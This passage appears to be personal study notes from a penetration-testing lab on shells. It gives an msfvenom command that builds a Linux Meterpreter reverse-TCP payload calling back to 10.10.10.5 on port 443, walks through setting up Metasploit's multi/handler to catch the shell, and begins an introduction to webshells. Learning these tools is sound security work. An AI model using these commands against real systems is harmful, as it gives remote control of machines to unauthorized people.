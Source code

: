 	msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443
	
## **Metasploit - multi/handler**
Multi/Handler is a a tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command:
![[Pasted image 20240820040051.png]]

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST _must_ be specified here, as metasploit will not listen on all network interfaces like netcat or socat will;
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`

Using the `exploit -j` command it tells Metasploit to launch the module, running as a job in the background.
![[Pasted image 20240820040300.png]]

Note:
	You may notice that in the above screenshot, Metasploit is listening on a port under `1024`. To do this, Metasploit _must_ be run with `sudo` permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:
![[Pasted image 20240820040454.png]]

Notice that, because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use `sessions` to see all active sessions


## **WebShells**

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a _webshell_.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.
